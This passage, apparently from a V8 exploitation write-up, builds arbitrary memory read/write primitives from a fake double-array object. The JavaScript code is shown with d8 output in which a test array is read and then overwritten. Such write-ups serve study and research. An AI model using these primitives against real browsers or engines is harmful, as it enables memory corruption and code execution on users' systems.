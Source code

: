 To get caged arbitrary address read/write primitive, we just need to adjust
our fake double array element pointer to memory address we want to act on.

```js
function cread32(addr) {
    let el_addr = (BigInt(addr) - 0x8n) | 0x1n;
    spray[offset] = itof(el_addr | fakelen << 32n);
    return lo(ftoi(fakeobj[0]));
}

function cread64(addr) {
    let el_addr = (BigInt(addr) - 0x8n) | 0x1n;
    spray[offset] = itof(el_addr | fakelen << 32n);
    return ftoi(fakeobj[0]);
}

function cwrite32(addr, data) {
    let temp = cread32(addr+4n);
    let el_addr = (BigInt(addr) - 0x8n) | 0x1n;
    spray[offset] = itof(el_addr | fakelen << 32n);
    fakeobj[0] = itof(data | temp << 32n)
}

function cwrite64(addr, data) {
    let el_addr = (BigInt(addr) - 0x8n) | 0x1n;
    spray[offset] = itof(el_addr | fakelen << 32n);
    fakeobj[0] = itof(data)
}

let test = [6.6, 7.7]

// trying to read test[0] by getting &test.elements
let test_addr = addrof(test)
let test_el_addr = cread32(test_addr+8n)
let test_0 = cread64(test_el_addr+8n)
console.log(itof(test_0), "===", test[0])

// trying to modify test[0] and test[1] with our write primitive
console.log(hex(ftoi(test[0])))
console.log(hex(ftoi(test[1])))
cwrite32(test_el_addr+8n, 0x13371337n)
cwrite64(test_el_addr+8n+8n, 0xdeadbeefcafebaben)
console.log(hex(ftoi(test[0])))
console.log(hex(ftoi(test[1])))
```

```console
$ ./d8 ./idk.js
[*] fakeobj double array with length = 0x80000
6.6 === 6.6
0x401a666666666666
0x401ecccccccccccd
0x401a666613371337
0xdeadbeefcafebabe
```


[^wb]: <https://v8.dev/blog/concurrent-marking>
[^smi-range]: <https://medium.com/fhinkel/v8-internals-how-small-is-a-small-integer-e0badc18b6da>